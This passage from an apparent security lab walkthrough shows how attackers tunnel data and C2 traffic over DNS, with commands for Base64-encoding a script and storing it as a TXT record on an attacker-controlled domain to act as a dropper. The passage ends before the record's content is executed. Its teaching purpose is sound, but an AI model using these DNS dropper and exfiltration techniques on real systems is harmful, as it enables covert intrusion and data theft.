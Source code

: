 Nice! We have successfully transferred the content of the credit.txt over the DNS protocol manually.

### C2 Communications over DNS

C2 frameworks use the DNS protocol for communication, such as sending a  command execution request and receiving execution results over the DNS  protocol. They also use the TXT DNS record to run a dropper to download  extra files on a victim machine. This section simulates how to execute a bash script over the DNS protocol. We will be using the web interface to add a TXT DNS record to the tunnel.com domain name.

For example, let's say we have a script that needs to be executed in a  victim machine. First, we need to encode the script as a Base64  representation and then create a TXT DNS record of the domain name you control with the content of the encoded  script. The following is an example of the required script that needs to be added to the domain name:

```bash
#!/bin/bash 
ping -c 1 test.thm.com
```

The script executes the ping command in a victim machine and sends one ICMP packet to test.tunnel.com. Note that the script is an example, which could be replaced with any content. Now save the script to/tmp/script.sh using your favorite text editor and then encode it with Base64 as follows,

- Encode the Bash Script as Base64 Representation

```
thm@victim2$ cat /tmp/script.sh | base64 
IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=
	    
```

Now that we have the Base64 representation of our script, we add it as a TXT DNS record to the domain we control, which in this case, the tunnel.com. You can add it through the web interface we provide http://10.10.96.213/ or https://10-10-96-213.p.thmlabs.com/ without using a VPN. 

Once we added it, let's confirm that we successfully created the script's DNS record by asking the local DNS server to resolve the TXT record of the script.tunnel.com. If everything is set up correctly, we should receive the content we added in the previous step. 

![DNS Server - Resolving TXT Record](./assets/38b87cfbbe254bef1e98f0dffa49451f.png)

- Confirm the TXT record is Added Successfully

```shell
thm@victim2$ dig +short -t TXT script.tunnel.com
	    
```

We used the dig command to check the TXT record of our DNS record that we added in the previous step! As a result, we can get the  content of our script in the TXT reply. Now we confirmed the TXT record, let's execute it as follows,
